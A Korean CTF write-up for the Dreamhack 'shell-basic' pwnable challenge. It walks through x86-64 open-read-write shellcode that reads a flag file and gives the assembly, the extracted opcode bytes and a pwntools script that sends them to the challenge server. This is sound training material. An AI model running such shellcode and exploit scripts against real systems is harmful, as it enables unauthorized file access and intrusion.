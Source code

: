 ```yaml
---
title: "[pwn]shell-basic"
category: CTF
tags: [pwnable]
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 파일 경로가 길어졌다느 것을 제외하면 같은 방식이다.
## assembly code
~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
~~~
## 풀이
1. 환경조사  
  **file shell_basic** 을 통해 환경을 먼저 조사한다. amd64 환경인 것을 알 수 있다.  
  
2. 파일경로 push  
  먼저 12번부터 16번까지는 stack에 file location을 string의 형태로 넣었다. 우연인지 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
  
  shell code에는 \x00이 포함되면 안되므로 **mov rax,0x0** 이 아닌 **xor rax,rax**를 해준것이다.  
  {: .notice--danger}
  
3. system call  
  그 이후에는 SYS_OPEN의 변수에 맞게 넣어주면 된다. **SYS_OPEN(const char \*filename,int flags,umode_t mode)** 에 flags=0, mode=null 을 넣어준 것이다.   
  나머지 **SYS_READ(unsigned int fd,char \*buf,size_t count)**, **SYS_WRITE(unsigned int fd,char \*buf,size_t count)** 함수의 parameter에 맞게 넣어주면 된다.  
  
4. gcc  
  **gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
  
5. objdump  
  **objdump -d ./orw** 명령어로 opcode를 추출한다.  
  <img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
  여기서 마지막 syscall(\x0f\x05)까지만 추출하면 된다.  
  
6. script  
  ~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
  exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
  ~~~

  script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
  <img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154060282-9a3a8081-505a-4e1f-b5fe-d719bde16195.png">  
  이때 flag이후에 다른 값이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
